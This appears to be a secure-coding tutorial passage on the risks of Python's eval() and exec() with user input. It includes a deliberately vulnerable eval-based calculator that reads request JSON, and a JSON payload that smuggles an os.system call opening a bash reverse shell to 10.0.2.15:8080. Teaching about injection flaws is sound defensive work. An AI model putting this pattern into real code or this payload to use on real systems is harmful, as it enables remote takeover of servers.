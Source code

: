 This is a very simple calculator, that gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:
```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```

If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. 

Yet if we provide something else like:

```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```

This malicious code will force our calculator to call `os.system` then spawn a [reverse shell](https://www.sans.edu/student-files/presentations/LVReverseShell.pdf) to the IP "10.0.2.15" on PORT "8080".

> 10.0.2.15 is a [private network address](https://whatismyipaddress.com/private-ip) and it is not accessible from the internet.

#### Exec() <a name="function2"></a>
This function is similar to `eval()` which executes a string or a code object:

```python
code = 'x = 2\ny=4\nprint("result =", x+y)'
exec(code)
```

The output will be `6`. You can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:

```python
exec('print(dir())')
```

The output is:

```bash
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```

A lot of those variables and methods that are accessible may not be necessary for your code. Therefore, you can restrict it for users by passing optional `locals` and `globals` parameters to the method.

For example:

```python
from math import *
exec('print(dir())')
```
